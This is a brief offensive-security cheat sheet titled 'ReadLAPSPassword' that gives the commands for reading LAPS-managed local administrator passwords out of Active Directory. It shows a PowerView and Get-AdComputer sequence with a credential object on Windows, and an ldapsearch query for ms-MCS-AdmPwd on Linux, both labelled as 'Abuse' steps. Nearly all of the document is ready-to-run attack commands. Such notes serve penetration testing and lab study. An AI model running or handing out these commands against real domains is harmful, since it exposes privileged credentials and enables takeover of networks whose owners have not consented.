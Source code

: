 ```yaml
---
title: "ReadLAPSPassword"
date: 2024-7-30
tags: ["ReadLAPSPassword", "active driectory", "ad", "Windows", "LAPS"]
---
```


---
### Abuse #1: Read LAPS password (From Windows)

#### 1. Import PowerView.ps1 

```powershell
. .\PowerView.ps1
```

#### 2. Create cred object (runas) \[optional\]

```powershell
$username = "<DOMAIN>\<USER>"
```

```powershell
$password = ConvertTo-SecureString <PASSWORD> -AsPlainText -Force
```

```powershell
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $password
```

#### 3. Read LAPS password

```powershell
Get-AdComputer -Filter * -Properties ms-Mcs-AdmPwd -Credential $cred
```

### Abuse #1: Read LAPS Password (From Linux)

```bash
ldapsearch -h 10.10.11.10 -b 'DC=<,example>,DC=<com>' -x -D <USER>@<TARGET> -w <PASSWORD> "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd
```

<br>
